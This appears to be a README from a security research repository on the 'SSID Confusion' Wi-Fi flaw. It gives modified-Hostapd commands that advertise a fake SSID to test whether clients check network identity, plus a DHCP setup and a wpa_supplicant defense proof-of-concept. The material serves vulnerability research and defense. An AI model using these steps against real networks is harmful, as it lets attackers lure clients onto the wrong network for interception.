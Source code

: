 # SSID Confusion: Making Wi-Fi Clients Connect to the Wrong Network

## Standard Attack Test

You can test the standard attack using a single Wi-Fi dongle using our modified Hostapd.
This simulates the MC-MitM attack that would be present in a real attack.
Note that the **full MC-MitM experiment**, as used in the paper to verify an end-to-endattack,
is available in the [mc-mitm](mc-mitm-ssid/README.md) directory. The below modified Hostapd
is to more easily test whether clients are vulnerable.

To perform the standard attack test, first create the following example `hostapd_test.conf` configuration:

	interface=wlan0
	ctrl_interface=wpaspy_ctrl
	channel=1
	ssid=connectssid
	wpa_ptk_rekey=10

Now start hostapd:

	./hostapd hostapd_test.conf

**Before connecting** execute the following command:

	./hostapd_cli -p wpaspy_ctrl raw "FAKESSID changedssid"

This will simulate an MC-MITM attacker that modifies probe responses, beacons,
and association requests to advertise a different (fake) SSID. This will also
turn off beacon protection to simulate that the attacker changes the SSID in
the beacon but cannot recalculate the beacon MMIC.

After starting Hostapd, try to connect with a client to "changessid". If the
client can successfully connect to the "changedssid" then the SSID is not
verified during connection/authentication, meaning the client, and the used
authentication method, is vulnerable. The AP will perform a group key handshake
every 10 seconds. If this handshakes completes successfully, you know that the
client is (still) connected. A successful group key handshakes can be recognized
by the following debug output:

	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	...

As long as this message is being shown, then the client with the given MAC address
is connected to the AP.

## Optimized Attack Test

You can use the following steps to test whether a client is affected by the
optimized attack, i.e., to test whether it checks the SSID in beacons _after_
being connected to a network.

Now connect to the created network. Once connected, you can make hostapd
advertise a different SSID using the following command:

	./hostapd_cli -p wpaspy_ctrl raw "CHANGESSID changedssid"

If the client stays connected then the client does not verify the SSID in
beacon frames one connected. Note that you can try to ping the client to
check whether it's still connected (see the client IP address in dnsmasq).

## Simple DHCP Server

To reliably test some clients, it may be required to enable DHCP. Otherwise,
some clients may automatically disconnect because the wireless network does
not provide an IP address. To easily give clients an IP address, you can
create the following `dnsmasq.conf` file:

	interface=wlan0
	dhcp-range=192.168.100.10,192.168.100.200,8h
	dhcp-option=3,192.168.100.1
	dhcp-option=6,192.168.100.1
	server=8.8.8.8
	log-queries
	log-dhcp

Now configure the IP address for `wlan0` and start dnsmasq:

	# Set IP of interface, otherwise dnsmasq will not hand out IP address.
	ip addr add 192.168.100.1/24 dev wlan0
	dnsmasq -d -C dnsmasq.conf

Note that handing out an IP address is sufficient in most cases. In case
a client requires full Internet access, you will also have to configure
Internet forwarding and NAT.

## Defense Proof-of-Concept

The `wpa_supplicant` version in this repository can save a reference beacon
while connecting, and in the 4-way handshake, will verify the authenticity of
this reference beacon. If the authenticity cannot be verified, the handshake
will be aborted, and the client will disconnect.

To enable this defense, include `CONFIG_TESTING_OPTIONS=y` in the `.config`
file when building `wpa_supplicant`.

You can use the following `client.conf`:

	ctrl_interface=wpaspy_ctrl
	passive_scan=1
	sae_pwe=0
	
	network={
	       ssid="changedssid"
	       psk="abcdefgh"
	       key_mgmt=SAE
	
	       pairwise=CCMP
	       group=CCMP
	
	       scan_freq=2412
	       ieee80211w=2
	       beacon_prot=1
	}

Notice that passive scanning is being used to ensure the client has
a copy of the beacon before connecting.

When executing `wpa_supplicant` with extra debug output using the `-dd`
flags you will notice the following relevant debug output lines:

	Saving beacon Information Elements from scan result
	...
 	Pre-auth beacon IEs to verify

This last debug message is essential. When this message is shown, you
know that the authenticity of the beacon is being verified.

Note that Multi-Link Operation networks are not supported. In case the
AP changes the BIGTK between when the client captured the reference
beacon and the transmission of the BIGTK in the 4-way handshake, the
check will fail, and the client will disconnect. In this
proof-of-concept the BIP_GMAC algorithm is also not supported.
